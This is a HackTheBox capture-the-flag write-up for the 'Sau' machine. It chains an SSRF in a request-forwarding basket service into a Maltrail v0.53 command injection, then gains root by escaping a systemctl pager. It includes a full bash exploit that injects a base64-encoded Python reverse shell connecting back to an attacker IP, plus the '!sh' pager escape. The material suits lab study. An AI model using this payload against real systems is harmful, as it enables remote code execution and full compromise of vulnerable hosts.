 # Sau

## Intro

Sau is an easy rated Linux machine from HackTheBox

## Enum

### Nmap

All tcp ports.

```
22/tcp    open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
55555/tcp open  unknown syn-ack ttl 63
```

## User

After creating a basket, I notice in the settings that an url can be provided to forward the request to.  

`127.0.0.1:80`

This shows the software maltrail v0.53 running, which suffers from a command injection. The following script executes rev shell.  

```
#!/bin/bash

# Exploit to gain RCE through a SSRF.
#
# After creating a basket, change the settings to forward to 127.0.0.1:80/login.

# Change attacker IP here.

IP="10.10.14.89"

# Payload

PAYLOAD="python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("
PAYLOAD+="\"$IP\""
PAYLOAD+=",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\"/bin/sh\")'"

b64PAYLOAD=$(echo -n "$PAYLOAD" | base64 -w 0)

curl -s http://10.129.74.142:55555/hacker -d "username=purple;\`echo $b64PAYLOAD+|+base64+-d+|+sh\`"
```

## Root

Using sudo -l without a password, the following can be run without a password.  

`sudo systemctl status trail.service`

Which drops into a pager, then run this command like less to get a root shell.  

`!sh`
